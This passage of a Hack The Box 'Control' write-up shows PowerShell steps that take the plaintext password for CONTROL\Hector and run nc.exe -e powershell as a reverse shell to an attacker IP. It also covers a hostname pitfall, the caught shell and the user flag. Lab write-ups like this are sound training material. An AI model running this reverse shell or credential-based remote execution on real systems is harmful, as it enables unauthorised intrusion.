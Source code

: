 I found the following tricks on [Hack Tricks][hacktricks], on this [page][hacktrickssudo]:

[hacktrickssudo]:https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters#sudo

```powershell
# create a credential object
$pass = ConvertTo-SecureString 'l33th4x0rhector' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('CONTROL\Hector', $pass)
# check if credentials are working executing
Invoke-Command -Computer Fidelity -ScriptBlock { whoami } -Credential $cred
# Now the real command
Invoke-Command -Computer Fidelity -Credential $cred -ScriptBlock { cmd /c "C:\inetpub\wwwroot\uploads\nc.exe -e powershell 10.10.15.123 10000" }
```

I lost hours at this step. Why?

Because of troll from the challenge author.

The `Invoke-Command` command requires the right hostname to work even if it is
localhost else it fails with an obscure error.

When you get the hostname of the machine in a classic way, or with enumeration
tool or if you guess that the name of the HTB box, you will think that the
hostname is `CONTROL` right?

```
PS C:\inetpub\wwwroot> gc env:computername
CONTROL

PS C:\inetpub\wwwroot> $env:computername
CONTROL

c:\>echo %computername%
CONTROL
```

Not at all, I don't understand why but the legacy `Hostname.exe` returns
`Fidelity`, same in powershell..

```
PS C:\inetpub\wwwroot> Hostname.exe
Fidelity

PS C:\inetpub\wwwroot> [System.Net.Dns]::GetHostName()
Fidelity
```

So here I learned that the hostname (DNS) != hostname (computer name).
Most of the time this will be the same, but here it was not.

For professional and attentive guesser, `Fidelity` was written on the home
page of the webapp.

Now that our powershell `runas` works we can grab the user flag.

```
$ nc -nlp 10000
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Hector\Documents> whoami
control\hector

PS C:\Users\Hector> gc Desktop\user.txt
d8782dd01fb15b72c4b5ba77ef2d472b
```
